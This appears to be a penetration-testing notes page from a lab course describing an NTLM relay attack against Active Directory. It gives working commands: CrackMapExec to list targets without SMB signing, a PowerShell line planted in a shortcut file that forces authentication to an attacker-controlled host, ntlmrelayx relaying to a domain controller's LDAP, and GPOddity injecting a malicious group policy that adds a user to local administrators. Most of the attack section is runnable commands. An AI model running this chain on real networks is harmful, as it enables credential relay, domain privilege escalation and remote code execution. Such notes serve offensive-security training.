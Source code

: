 # NTLM Relay

When capturing a [NTLMv1/2](https://www.vaadata.com/blog/understanding-ntlm-authentication-and-ntlm-relay-attacks/) hashes with tools like Responder, attackers have two options:

* crack it to retrieve cleartext passwords
* relay it to gain code execution on a target

{% hint style="warning" %}
The relayed user must have privilege on the target.
{% endhint %}

### Valid targets <a href="#valid-targets" id="valid-targets"></a>

In order to relay hashes, we must have valid targets. **Valid targets are machines with SMB Signing disabled**.

SMB Signing is disabled by default on every Windows OS, except Windows Server.

To create a list file of valid targets, use [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec):

```bash
cme smb <networkIP>/<cidr> --gen-relay-list relayTargets.txt
```

### Relaying hashes <a href="#relaying-hashes" id="relaying-hashes"></a>

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption><p>Found from <a href="https://aas-s3curity.gitbook.io/cheatsheet/internalpentest/active-directory/exploitation/exploit-without-account/smb-relay">here</a></p></figcaption></figure>

Create a shortcurt lnk file with the below content  and place it inside th shared AI folder.

```powershell
powershell "iwr 172.16.x.x -UseDefaultCredentials"
```

Run the below comamnd in the WSL Linux to relay the credentials to the DC.

```bash
sudo ntlmrelayx.py -t ldap://dcorp-dc.dollarcorp.moneycorp.local --http-port '80,8080' -i --no-smb-server
```

Use netcat to connect to the interactive session and use the below to add the user to have write access to the GPO.

<pre class="language-aspnet"><code class="lang-aspnet"><strong>write_gpo_dacl studentx {0BF8D01C-1F62-4BDC-958C-57140B67D147}
</strong></code></pre>

Now malicious GPO template can injected through GPOddity - [https://github.com/synacktiv/GPOddity](https://github.com/synacktiv/GPOddity)

<pre class="language-bash"><code class="lang-bash"># In linux machine change to the tool directory
<strong>cd /mnt/c/AD/Tools/GPOddity
</strong><strong># Use the GPOddity
</strong>sudo python3 gpoddity.py --domain dollarcorp.moneycorp.local --gpo-id '0BF8D01C-1F62-4BDC-958C-57140B67D147' --username studentx --password xyzdsfsddsf --dc-ip 172.16.2.1 --command "net localgroup administrators studentx  /add" --rogue-smbserver-ip 172.16.100.x --rogue-smbserver-share 'std-anything' --smb-mode none 
# Create a share with the name mentioned above and host the template
net share std-anything=C:\AD\Tools\ GPOddity\GPT_out
# Grant everyone permission to those templates
icacls "C:\AD\Tools\GPOddity\GPT_out" /grant Everyone:F /T
# Verify the persmission with
Get-DomainGPO # Check gpcfilesyspath and whenchanged
winrs -r:dcorp-ci cmd /c "set computername &#x26;&#x26; set username"
</code></pre>

